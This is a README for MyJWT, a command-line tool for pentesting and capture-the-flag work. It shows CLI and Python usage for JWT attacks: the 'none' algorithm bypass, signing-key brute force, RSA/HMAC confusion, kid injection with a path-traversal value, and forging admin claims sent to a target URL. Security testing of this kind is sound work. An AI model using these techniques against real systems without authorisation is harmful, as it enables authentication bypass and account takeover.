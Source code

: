 # MyJWT

# Introduction
This cli is for pentesters, CTF players, or dev.<br>
You can modify your jwt, sign, inject ,etc...<br>
Check [Documentation](#usage) for more information.<br>
If you see problems or enhancement send an issue.I will responds as soon as possible.
Enjoy :)
# Table of Contents
- [Features](#features)
- [Installation](#installation)
- [Usage](#usage)
- [Examples](#examples)
- [Download](#download)
- [Contribute](#contribute)
# Features
- modify jwt (header/Payload)
- None Vulnerability
- RSA/HMAC confusion
- Sign a jwt with key
- Brute Force to guess key
- kid injection

# Installation
To install myjwt, simply use pip:
```
pip install myjwt
```
To run mywt from a docker image, run:
```
docker run -v $(pwd)/wordlist:/wordlist/ -it ghcr.io/mBouamama/MyJWT myjwt
```
To install myjwt, on git:
```
git clone https://github.com/mBouamama/MyJWT.git
cd ./MyJWT
pip install -r requirements.txt
python myjwt_cli.py --help
```
# Usage
![Helper](./docs/helper.png)
# Examples
## Modify your Jwt
### CLI
```
myjwt YOUR_JWT --add-payload "username=admin" --add-header "refresh=false"
```
### Code
```
from MyJWT.modifyJWT import addpayload, addheader, changePayload
from MyJWT.utils import jwtToJson, SIGNATURE, encodeJwt

jwtJson = jwtToJson(jwt)
jwtJson = addheader(jwtJson, {"kid": "001"})
jwtJson = changePayload(jwtJson, {"username": "admin"})
jwt = encodeJwt(jwtJson) + "." + jwtJson[SIGNATURE]
```
Full example here: [01-modify-jwt](./examples/01-modify-jwt/main.py)
## None Vulnerability
### CLI
```
myjwt YOUR_JWT --none-vulnerability
```
### CODE
```
from MyJWT.utils import jwtToJson, SIGNATURE
from MyJWT.vulnerabilities import noneVulnerability
jwtJson = jwtToJson(jwt)
jwt = noneVulnerability(encodeJwt(jwtJson) + "." + jwtJson[SIGNATURE])
```
Full example here: [02-none-vulnerability](./examples/02-none-vulnerability/main.py)
## Sign Key
### CLI
```
myjwt YOUR_JWT --sign YOUR_KEY
```
### CODE
```
from MyJWT.modifyJWT import signature
from MyJWT.utils import jwtToJson
key = "test"
jwt = signature(jwtToJson(jwt), key)
```
Full example here: [03-sign-key](./examples/03-sign-key/main.py)
## Brute Force
### CLI
```
myjwt YOUR_JWT --bruteforce PATH
```
### CODE
```
from MyJWT.vulnerabilities import bruteforceDict
wordlist = "../../wordlist/common_pass.txt"
key = bruteforceDict(jwt, wordlist)
```
Full example here: [04-brute-force](./examples/04-brute-force/main.py)
## RSA/HMAC Confusion
### CLI
```
myjwt YOUR_JWT --hmac FILE
```
### CODE
```
from MyJWT.vulnerabilities import confusionRsaHmac
file = "public.pem"
jwt = confusionRsaHmac(jwt, file)
```
Full example here: [05-rsa-hmac-confusion](./examples/05-rsa-hmac-confusion/main.py)
## Kid Injection
### CLI
```
myjwt YOUR_JWT --kid INJECTION
```
### Code
```
from MyJWT.modifyJWT import signature
from MyJWT.utils import jwtToJson
from MyJWT.vulnerabilities import injectSqlKid

injection = "../../../../../../dev/null"
sign = ""
jwt = injectSqlKid(jwt, injection)
jwt = signature(jwtToJson(jwt), sign)
```
Full example here: [06-kid-injection](./examples/06-kid-injection/main.py)

## Send your new Jwt to url

### CLI
```
YOUR_JSON -u YOUR_URL -c "jwt=MY_JWT" --non-vulnerability --add-payload "username=admin"
```
# Download
Check github releases. Latest is available at https://github.com/mBouamama/MyJWT/releases/latest
# Contribute
```
#TODO
```
